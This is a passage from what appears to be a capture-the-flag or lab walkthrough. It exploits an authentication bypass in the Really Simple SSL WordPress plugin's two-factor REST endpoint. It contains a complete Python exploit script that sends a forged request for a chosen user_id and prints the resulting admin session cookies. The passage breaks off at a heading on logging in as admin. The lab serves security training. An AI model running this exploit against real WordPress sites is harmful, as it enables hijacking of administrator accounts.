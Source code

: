 ## Exploitation

We will see that the website is protected through a login panel. Our goal is to retrieve credentials against a WordPress user admin with user_id 1.

Below is a simple python script that sends a POST request to the vulnerable endpoint. This script extracts and displays the cookies in response to authenticate the user.

```python
import requests
import urllib.parse
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <user_id>")
    sys.exit(1)

user_id = sys.argv[1]

url = "http://vulwp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),
    "login_nonce": "invalid_nonce",
    "redirect_to": "/wp-admin/"
}

response = requests.post(url, json=data)

if response.status_code == 200:
    print ("Request successful!\n")

    cookies = response.cookies.get_dict()
    count = 1

    for name, value in cookies.items():
        decoded_value = urllib.parse.unquote(value)
        print (f"Cookie {count}:")
        print (f"Cookie Name: {name}")
        print (f"Cookie Value: {decoded_value}\n")
        count += 1
else:
    print ("Request failed!")
    print (f"Status Code: {response.status_code}")
    print (f"Response Text: {response.text}")
```

The above script sends a POST request to the WordPress endpoint and retrieves the authenticated cookie values for the specified **user_id**, with 1 typically being assigned to the first user on the website.

### From Cookies to Admin Login
